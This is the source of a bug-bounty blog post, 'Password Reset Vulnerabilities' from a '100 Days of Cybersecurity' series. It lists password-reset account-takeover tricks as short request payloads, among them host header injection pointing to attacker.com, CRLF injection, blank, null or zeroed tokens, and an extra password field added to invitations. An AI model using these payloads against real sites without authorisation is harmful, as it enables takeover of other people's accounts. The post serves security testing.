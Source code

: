 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/77d37890-df5d-43c6-8963-353f8cb4ebbd"> Password Reset Vulnerabilities  
date: 2023-12-12 07:00:02 +730
categories: [Resources, general]
tags: [bugbounty, password-reset-vuln,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 4</h1>
<br><br>
![th-364396762 (1)](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/6609b668-6523-4436-b31b-e1e405cf670b)

<br>
Hey, hacking enthusiasts! Ready to uncover some mind-blowing tricks? Dive into these HubSpot Full Account Takeover methods and master the hacker's playbook!

## 📧 Using Your Token on Victims' Email



```
POST /reset
email=victim@gmail.com&token=$YOUR-TOKEN$
```

Imagine slipping into someone's email fortress with a cleverly placed token. 🕵️‍♂️

## 🌐 Host Header Injection


```
POST /reset
Host: attacker.com
email=victim@gmail.com`
```

Messing with the host header to sow confusion. Crafty, right?

## 🎭 HTML Injection in Host Header


```
POST /reset
Host: attacker">.com
email=victim@gmail.com
```

Why settle for ordinary when you can inject style into your hacks? 😉

## 🕵️ Leakage of Password Reset in Referer Header


`Referrer: https://website.com/reset?token=1234` 

Spotting hidden treasures in the Referer Header - a classic move in the hacker's handbook.

## 🎭 Using Companies Email


```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc
```
Mixing business with pleasure by exploiting the power of company emails. 🏢💻

## 🚪 CRLF in URL


`/resetPassword?0a%0dHost:atracker.tld` 

Breaking into the reset realm with CRLF magic. 🪄

## 📬 HTML Injection in Email



`HTML injection in email via parameters, cookie, etc > inject image > leak the  token` 

Crafting emails that are not just messages but gateways to breach security. 💻🔓

## 🚮 Remove Token



`/reset?eamil=victims@gmail.com&token=` 

Playing hide and seek with tokens - remove, replace, and conquer. 🕵️‍♀️🎭

## 🔄 Change it to 0000



`/reset?eamil=victims@gmail.com&token=0000000000` 

Transforming tokens like a digital alchemist. ✨

## 🚫 Use Null Value



`/reset?eamil=victims@gmail.com&token=Null/nil` 

Because sometimes, nothing is more powerful than Null. 🧙‍♂️

## 🎲 Try an Array of Old Tokens



`/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]` 

Rolling the dice with a repertoire of old tokens. 🎲

## 🕵️ SQLi Bypass


`try sqli bypass and wildcard or, %, *` 

In the quest for knowledge, SQLi becomes the secret language. 🤫📜

## 🔄 Request Method / Content Type



`change request method (get, put, post etc) and/or content type (xml<>json)` 

Mastering the art of disguise - because not all requests are created equal. 🎭

## 🔄 Response Manipulation

`Replace bad response and replace with good one` 

Turning the tables by manipulating responses. It's like playing chess with code. ♟️

## 🚀 Massive Token



`/reset?eamil=victims@gmail.com&token=1000000 long string` 

Unleashing the power of the colossal token - because size does matter in the hacking world. 🚀

## 🔗 Crossdomain Token Usage



`If a program has multiple domains using the same underlying reset mechanism...` 

Navigating through domains like a digital acrobat - because sometimes, tokens transcend boundaries. 🌐

## Final Notes 📒 

🔍 Leaking Reset Token in Response Body

 🔄 Change 1 Char at the Begin/End to See if the Token is Evaluated

📬 Use Unicode Char Jutsu to Spoof Email Address

⏱️ Look for Race Conditions

 🔄 Try to Register the Same Mail with Different TLD (.eu, .net, etc)


----------

Hope you enjoy this adventure into the world of bug bounty hunting! Happy hacking!

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
